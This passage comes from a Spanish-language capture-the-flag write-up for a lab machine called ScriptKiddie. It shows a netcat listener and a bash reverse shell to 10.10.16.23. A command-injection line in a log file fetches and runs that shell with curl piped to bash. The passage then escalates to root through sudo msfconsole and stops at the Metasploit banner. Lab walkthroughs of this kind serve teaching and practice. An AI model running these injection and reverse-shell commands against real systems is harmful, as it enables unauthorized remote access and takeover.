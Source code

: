 Nos ponemos en `escucha` con `netcat` para recibir una shell

```
# nc -nlvp 4444
```

Nos `creamos` un `archivo` llamado `shell` con este `contenido`

```
bash -i >& /dev/tcp/10.10.16.23/4444 0>&1
```

En el `mismo directorio` donde se encuentra el archivo `shell` nos `montamos` un `servidor` http con python

```
# python -m http.server 80
```

`Modificamos` el `archivo` que se aloja en `/home/kid/logs/hackers` con el objetivo de `ejecutar comandos`

```
kid@scriptkiddie:~/logs$ echo '[2024-08-11 12:13:26.394001] 10.10.16.23; curl http://10.10.16.23/shell|bash #' > hackers
```

`Recibimos` la `shell`

```
# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.95.150] 44790
bash: cannot set terminal process group (831): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ whoami
whoami
pwn
```

Como el usuario `pwn` podemos `ejecutar metasploit` como `root`

```
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Nos `convertimos` en usuario `root`, en `gtfobins` [https://gtfobins.github.io/gtfobins/msfconsole/](https://gtfobins.github.io/gtfobins/msfconsole/) nos explica la forma de hacerlo

```
pwn@scriptkiddie:~$ sudo msfconsole
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
```